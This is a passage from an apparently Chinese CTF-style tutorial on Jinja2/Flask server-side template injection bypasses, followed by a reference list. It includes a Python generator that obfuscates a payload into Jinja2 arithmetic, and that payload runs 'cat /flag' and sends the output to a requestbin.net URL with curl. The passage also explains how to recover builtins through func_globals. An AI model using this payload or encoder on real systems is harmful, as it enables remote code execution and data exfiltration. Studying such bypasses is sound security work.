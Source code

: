 至于上面cmd里面的内容的生成

```
def generateIt(t):
	t='('+(int(t[:-1:])+1)*'c'+'~'+(int(t[-1])+1)*'c'+')|int'
	return t
s='__import__("os").popen("curl http://requestbin.net/r/wobh0ywo?p=`cat /flag`").read()'
def ccchr(s):
	t=''
	for i in range(len(s)):
		if i<len(s)-1:
			t+='chr('+generateIt(str(ord(s[i])))+')%2b'
		else:
			t+='chr('+generateIt(str(ord(s[i])))+')'
	return t
print(ccchr(s))
```



# 参考资料

作为 web层面的攻击,我们要关注语言层面的特性和绕过，在Flask/Jinja2 模板的语法,filters和内建函数,变量,都可能称为绕过的trick

[Jinja官方文档](https://jinja.palletsprojects.com/en/2.11.x/templates/#list-of-builtin-filters)

[Flask官方文档](https://dormousehole.readthedocs.io/en/latest/)

[SSTI模板注入及绕过姿势(基于Python-Jinja2)](https://blog.csdn.net/solitudi/article/details/107752717?ops_request_misc=%7B%22request%5Fid%22%3A%22160992724816780274016446%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fblog.%22%7D&request_id=160992724816780274016446&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_v2~rank_v29-1-107752717.pc_v2_rank_blog_default&utm_term=ssti&spm=1018.2226.3001.4450)

[SSTI/沙盒逃逸详细总结](https://www.anquanke.com/post/id/188172)

[一篇文章带你理解漏洞之 SSTI 漏洞](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/)

[细说Jinja2之SSTI&bypass](https://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA==&mid=2652868785&idx=1&sn=aea3849c8ee1cdc50ad0742744159800&chksm=bd59ec7c8a2e656a4f9f5b0753c6bef4efeae17ca9a5ab3d550fdac9b302adf3696c1c432eb1&mpshare=1&scene=23&srcid=1219HTr8L8YaCVw9dnE3xDUj&sharer_sharetime=1608375002321&sharer_shareid=39123bd44a937bb35fd979cc8098127f#rd)

[SSTI模板注入绕过（进阶篇）](https://blog.csdn.net/miuzzx/article/details/110220425)

[Server-Side Template Injection](https://portswigger.net/research/server-side-template-injection)

[浅谈flask ssti 绕过原理](https://xz.aliyun.com/t/8029)

[Python沙箱逃逸的n种姿势](https://xz.aliyun.com/t/52)

[Python实现全角半角字符互转的方法](https://www.jb51.net/article/98443.htm)

## 注意

## 命令执行构造

在{{}}我们可以执行表达式,但是命名空间是受限的,没有builtins,所以eval,open这些操作是不能使用的,但根据前面的知识,我们可以通过任意一个函数的func_globals而得到他们的命名空间,而得到builtins

